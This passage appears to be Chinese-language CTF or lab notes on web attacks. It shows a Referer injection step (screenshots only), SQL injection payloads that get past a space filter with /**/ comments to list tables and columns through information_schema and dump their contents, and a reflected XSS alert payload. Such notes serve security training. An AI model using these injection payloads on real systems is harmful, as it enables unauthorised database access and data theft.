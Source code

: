 ### Refer注入
原请求无refer，手动添加

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680050652-9848dd9c-fef1-44d3-89f4-3377a792d49f.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680058815-10fb3eea-1d00-4ab6-8625-23ea7817ef68.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680084764-6388ce74-e3f9-469a-999b-58ed805900e0.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680110445-7c0a89a2-baf5-49d5-bd25-93826aead17d.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680172613-e03b1676-add7-4837-b97a-6b156f002587.png)

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680203421-25118184-bcce-4a6c-9b76-7aed3d29d1a5.png)

### 过滤空格
`-1 union select 1,2`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680440269-694e1e62-0cf7-4410-873b-1b4a7ba2d243.png)

`-1/**/union/**/select/**/1,2`

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680506910-cfb2f8da-27c8-48d2-b4f9-0eea6cf0dfbb.png)

```sql
-1/**/union/**/select/**/database(),group_concat(table_name)from/**/information_schema.tables/**/where/**/table_schema=database()
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680599504-882c90f9-3ed1-4007-b941-2d681f9d3f09.png)

```sql
-1/**/union/**/select/**/database(),group_concat(column_name)from/**/information_schema.columns/**/where/**/table_schema=database()/**/and/**/table_name='iwnukmmbul'
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680833619-c8413cab-a7d9-43b6-b4e2-c9c0e66b26b0.png)

```sql
-1/**/union/**/select/**/database(),group_concat(pvrmhtxmxm)from/**/iwnukmmbul
```

![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751680872562-0c4cee6e-7e3d-452c-858b-52f3fa03f576.png)

## 四、XSS
### 反射型
![](https://cdn.nlark.com/yuque/0/2025/png/57535506/1751620172215-c85ca67d-860c-4c68-bff7-a5ddab9491ba.png)

```html
<script>alert(123)</script> #成功
```

